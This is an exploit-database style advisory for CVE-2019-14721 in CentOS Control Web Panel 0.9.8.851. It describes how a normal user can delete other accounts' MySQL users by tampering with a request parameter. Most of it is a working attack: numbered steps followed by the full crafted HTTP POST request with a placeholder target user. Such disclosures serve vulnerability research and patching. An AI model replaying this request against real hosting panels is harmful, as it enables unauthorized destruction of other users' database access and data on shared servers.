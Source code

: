 ```
Exploit Title       : CWP (CentOS Control Web Panel) Remove user from phpMyAdmin via an attacker account
Date                : 24 Jul 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.851
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-14721
Reference	    : N/A
```

1. Log in as a normal user.
2. Go to "MySQL Manager"
3. Try to delete any database user from the account
4. Intercept the request, and modify parameter "user" to other username
(such as user in /etc/passwd, they are automatically added to database user by default)

POST /cwp_47e1d536a096e42d/alice/alice/index.php?module=mysql_manager&acc=deleteuserdb HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 31
Connection: close
Referer: https://192.168.80.148:2083/cwp_47e1d536a096e42d/alice/?module=mysql_manager
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

user=<TARGET-USER>&host=localhost
